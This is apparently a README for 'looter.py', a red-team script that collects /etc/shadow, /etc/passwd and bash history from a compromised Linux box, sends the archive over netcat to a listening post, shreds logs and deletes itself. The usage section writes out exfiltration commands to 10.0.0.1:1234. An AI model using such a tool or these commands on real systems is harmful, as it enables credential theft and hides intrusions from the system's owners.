 #Module 1 - looter.py 
##Idea
On the 842 Ideas Spreadsheet, Andrew Kramer suggested the idea of creating an automated looting script that will collect relevant data for someone who gained root access to a box.  This is great for red team exercises where the attacker wants to be able to quickly grab useful files and data before getting booted off the system.

##Purpose
This script will crawl through a box and quickly collect useful information for an attacker.  The script will determine which OS it is on to ensure compatibility before attempting to collect anything.  The nest egg (collection stash) location will be in the present working directory of the script unless specified by the user.

This script makes an attempt is made to copy relevant files including but not limited to /etc/passwd, /etc/shadow, ~/.bash_history, etc to the nest egg location.  Once everything is collected, the files are prepared and zipped for exfil.  Currently, the script uses netcat to create a network connection to a listening post for exfil.

The goal is to be discreet and the script will shred logs, avoid writing to bash_history, and cover its own tracks.

This Python script has been tested on Kali Linux 64 bit with Python 2.7.12.

#Help Screen 
```
usage: looter.py [-h] [-a] [-ne] [-d PATH] [-t TARGET] [-p PORT] [-r]

Looter script, collects juicy data for malicious use.

optional arguments:
  -h, --help            show this help message and exit
  -a, --all             perform all collections
  -ne, --noexfil        disable exfil feature, drop tar file in dir
  -d PATH, --dir PATH   specify nest egg path
  -t TARGET, --target TARGET 
  						specify exfil ip address (IPv4 only)
  -p PORT, --port PORT  specify exfil port number
  -r, --remove          remove script after execution
```
#Usage Examples

A collection without any exfiltration can be done with the command below:

```
python ./looter.py -a -ne
```

A collection with exfiltration to a specified IP address and port can be done with the command below:

```
python ./looter.py -a -t 10.0.0.1 -p 1234
```

Specifying the -r flag will cause the script to be destroyed after execution to cover its tracks:

```
python ./looter.py -a -t 10.0.0.1 -p 1234 -r
````

Specifying the -d flag with a valid path will change the default nest egg location:
```
python ./looter.py -a -t 10.0.0.1 -p 1234 -d ~/Desktop/
```

#Other

#Future Work

#Resources
https://pymotw.com/2/argparse/

http://stackoverflow.com/questions/3718657/how-to-properly-determine-current-script-directory-in-python

http://stackoverflow.com/questions/110362/how-can-i-find-the-current-os-in-python

http://stackoverflow.com/questions/2032403/how-to-create-full-compressed-tar-file-using-python

http://stackoverflow.com/questions/4417546/constantly-print-subprocess-output-while-process-is-running

https://docs.python.org/2/library/os.path.html#os.path.basename

http://stackoverflow.com/questions/29065781/how-can-i-get-a-python-program-to-kill-itself-using-a-command-run-through-the-mo

